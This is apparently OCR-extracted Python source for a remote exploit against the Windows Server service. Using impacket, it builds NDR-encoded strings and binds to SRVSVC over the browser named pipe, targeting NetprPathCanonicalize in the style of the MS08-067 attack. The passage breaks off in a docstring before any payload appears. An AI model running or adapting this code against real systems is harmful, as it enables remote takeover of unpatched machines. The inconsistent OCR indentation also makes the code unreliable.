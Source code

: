 	from impacket.dcerpc.v5 import transport
	from impacket.structure import Structure
	
def ndr_long(value):
      return pack("<L", value)
	  
def ndr_aling(value):
      return "\x00" * ((4 - (len(value) & 3)) & 3)
	  
def ndr_uwstring(value):
      value = value + "\x00"
      rvalue = ndr_long(randint(1, 0xffffffff))
      length = ndr_long(len(value))
      utf16_value = value.encode("utf-16le")
      aligned_utf16_value = ndr_aling(utf16_value)
    
      return rvalue + length + ndr_long(0) + length + utf16_value + aligned_utf16_value
	  
def ndr_wstring(value):
      value = value + "\x00"
      length = ndr_long(len(value))
      utf16_value = value.encode("utf-16le")
      aligned_utf16_value = ndr_aling(utf16_value)
    
      return length + ndr_long(0) + length + utf16_value + aligned_utf16_value
	  
def ndr_wstring_prebuilt(value):
      if len(value) % 2 > 0:
          value = value + "\x00"
        
      length = len(value) / 2
      return ndr_long(length) + ndr_long(0) + ndr_long(length) + value + ndr_aling(value)
	  
def rand_text_alpha(length):
      return ''.join(choice(ascii_uppercase) for _ in range(length))
	  
def to_unicode(value):
      return value.encode("utf-16le")
	  
def connect(target):
      trans = transport.DCERPCTransportFactory('ncacn_np:%s[\\pipe\\browser]' % target)
      try:
          trans.connect()
          print "[*]\tConnected to %s " % target
      except:
          print "[*]\tConnection fault"
          exit()
      dce = trans.DCERPC_class(trans)
      dce.bind(uuid.uuidtup_to_bin(('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0')))
      print "[*]\tBinding"
      return dce
	  
	  """
	  #   NET_API_STATUS NetprPathCanonicalize(
	  #   [in, string, unique] SRVSVC_HANDLE ServerName,
	  #   [in, string] WCHAR* PathName,
	  #   [out, size_is(OutbufLen)] unsigned char* Outbuf,
	  #   [in, range(0,64000)] DWORD OutbufLen,
	  #   [in, string] WCHAR* Prefix,